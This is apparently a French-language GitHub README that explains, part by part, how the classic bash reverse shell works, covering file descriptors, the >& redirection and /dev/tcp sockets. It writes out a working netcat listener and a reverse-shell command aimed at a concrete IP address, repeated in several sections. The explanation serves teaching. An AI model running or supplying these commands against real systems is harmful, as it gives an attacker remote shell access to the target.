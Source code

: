 # bash-reverse-shell

Un reverse shell en bash peut être généré avec :
* `nc -nl -p 4242 -vvv` sur le serveur de l'attaquant
* `bash -i >& /dev/tcp/64.226.92.57/4242 0>&1` sur le serveur cible vulnérable

Ce repo détaille la deuxième commande, exécutée sur le serveur cible

## `bash -i`

### File descriptors

[https://en.wikipedia.org/wiki/File_descriptor](https://en.wikipedia.org/wiki/File_descriptor)

> A file descriptor (FD, less frequently fildes) is a process-unique identifier (handle) for a file or other input/output resource, such as a pipe or network socket. 

![bash -i 01](./doc/bash_i_01.png?raw=true)

> Each Unix process (except perhaps daemons) should have three standard POSIX file descriptors, corresponding to the three standard streams: 0 (stdin), 1 (stdout), 2 (stderr).

* Le process bash `159936` a 3 file descriptors standards associés au terminal `0`.
* Le process bash `159992` a 3 file descriptors standards associés au terminal `1`.

### Ecriture dans un autre terminal

On peut écrire depuis un terminal vers un autre.

[https://unix.stackexchange.com/questions/93531/what-is-stored-in-dev-pts-files-and-can-we-open-them](https://unix.stackexchange.com/questions/93531/what-is-stored-in-dev-pts-files-and-can-we-open-them)

![bash -i 0](./doc/bash_i_0.png?raw=true)

### bash interactif

Lorsqu'on crée un bash interactif, il est associé au terminal de son process (bash) parent.

![bash -i 1](./doc/bash_i_1.png?raw=true)

[https://unix.stackexchange.com/questions/93531/what-is-stored-in-dev-pts-files-and-can-we-open-them](https://unix.stackexchange.com/questions/93531/what-is-stored-in-dev-pts-files-and-can-we-open-them)

## `bash -i >& /dev/tcp/64.226.92.57/4242`

### Redirection de stdout et stderr

[https://www.gnu.org/software/bash/manual/bash.html#Duplicating-File-Descriptors](https://www.gnu.org/software/bash/manual/bash.html#Duplicating-File-Descriptors)

En bash, l'opérateur `>&` redirige à la fois stdout et stderr sur la même destination.

Exemple :
```
root@my-next-app:~/work# pwd >& output.txt
root@my-next-app:~/work# cat output.txt
/root/work
root@my-next-app:~/work#
```

[https://www.reddit.com/r/linuxquestions/comments/kbdtqs/understanding_01_in_a_bash_reverse_shell/](https://www.reddit.com/r/linuxquestions/comments/kbdtqs/understanding_01_in_a_bash_reverse_shell/)

La commande `bash -i >& /dev/tcp/64.226.92.57/4242` :
* Crée une socket ("network file") vers 64.226.92.57, port 4242, en TCP
* Redirige stdout vers cette socket ("duplicate the resulting file to fd 1")
* Redirige stderr vers cette socket ("duplicate the resulting file to fd 2")

[https://www.scs.stanford.edu/07wi-cs244b/refs/net2.pdf](https://www.scs.stanford.edu/07wi-cs244b/refs/net2.pdf)

![bash -i + socket](./doc/bash_i_2.gif?raw=true)

### lsof

La commande `lsof -i -a -p <pid>` redonne les sockets (network files) utilisées par le pid

[https://unix.stackexchange.com/questions/235979/how-do-i-find-out-more-about-socket-files-in-proc-fd](https://unix.stackexchange.com/questions/235979/how-do-i-find-out-more-about-socket-files-in-proc-fd)

![lsof](./doc/lsof_1.gif?raw=true)

## `bash -i >& /dev/tcp/64.226.92.57/4242 0>&1`

La commande `bash -i >& /dev/tcp/64.226.92.57/4242 0>&1` :
* Crée une socket ("network file") vers 64.226.92.57, port 4242, en TCP
* Redirige stdout vers cette socket ("duplicates the resulting file to fd 1")
* Redirige stderr vers cette socket ("duplicates the resulting file to fd 2")
* "duplicates fd 1 to fd 0". Le file descriptor 0 (stdin) est la socket

![reverse shell](./doc/reverse_shell.gif?raw=true)